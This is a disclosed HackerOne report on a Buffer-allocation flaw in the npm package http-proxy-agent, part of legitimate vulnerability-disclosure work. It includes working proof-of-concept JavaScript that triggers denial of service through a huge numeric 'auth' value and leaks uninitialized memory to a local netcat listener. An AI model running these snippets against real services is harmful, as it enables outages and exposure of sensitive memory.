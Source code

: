 # `http-proxy-agent` passes unsanitized options to Buffer(arg), resulting in DoS and uninitialized memory leak

## Report Details
- **Report ID**: 321631
- **URL**: https://hackerone.com/reports/321631
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-03-03T19:07:43.490Z
- **Disclosed**: 2018-04-05T21:51:46.634Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Buffer allocation vulnerability in `http-proxy-agent`.

In setups where auth argument is user-controlled, it allows to:

cause Denial of Service by trivially consuming all the available CPU resources
extract uninitialized memory chunks from the server on Node.js <8.x.
# Module

**module name:** `http-proxy-agent`
**version:** 2.0.0
**npm page:** `https://www.npmjs.com/package/http-proxy-agent`

## Module Description

> This module provides an http.Agent implementation that connects to a specified HTTP or HTTPS proxy server, and can be used with the built-in http module.

## Module Stats

112 721 downloads in the last day
707 979 downloads in the last week
2 953 077 downloads in the last month

# Vulnerability

## Vulnerability Description

`http-proxy-agent` passes `auth` option to the Buffer constructor without proper sanitization, resulting in DoS and uninitialized memory leak in setups where an attacker could submit typed input to the 'auth' parameter (e.g. JSON).

The exact line: https://github.com/TooTallNate/node-http-proxy-agent/blob/master/index.js#L80

## Steps To Reproduce:

### DoS

```js
var url = require('url');
var http = require('http');
var HttpProxyAgent = require('http-proxy-agent');

var proxy = {
  protocol: 'http:',
  host: "127.0.0.1",
  port: 8080
};

setInterval(() => {
  proxy.auth = 1e9; // a number as 'auth'
  var opts = url.parse('http://example.com/');
  var agent = new HttpProxyAgent(proxy);
  opts.agent = agent;
  console.time('tick');
  http.get(opts);
  console.timeEnd('tick');
}, 200);
```

Observe how this is consuming memory and CPU — each request takes >1 second in the main thread on my setup.

### Uninitialized memory leak

```js
// listen with: nc -l -p 8080

var url = require('url');
var http = require('http');
var HttpProxyAgent = require('http-proxy-agent');

var proxy = {
  protocol: 'http:',
  host: "127.0.0.1",
  port: 8080
};

proxy.auth = 500; // a number as 'auth'
var opts = url.parse('http://example.com/');
var agent = new HttpProxyAgent(proxy);
opts.agent = agent;
http.get(opts);
```

Listen with `nl -l -p 8080` to see requests.

Execute on various Node.js versions — 4.x LTS, 6.x LTS, 8.x LTS / 9.x.

This leaks uninitialized Buffer memory on Node.js <8.x.
On ≥8.x those Buffers (that are using the deprecated API) are zero-filled.

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- OS: Arch Linux current
- Node.js 9.5.0
- npm 5.6.0
- gnu-netcat 0.7.1

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

# Note

Almost entirely similar to `https-proxy-agent`, but this is a separate package, a separate GitHub repo, different version numbers, different lines in code, different download stats.

## Impact

Denial of service
Sensitive data leak (on Node.js <8.0)

## Attachments
No attachments
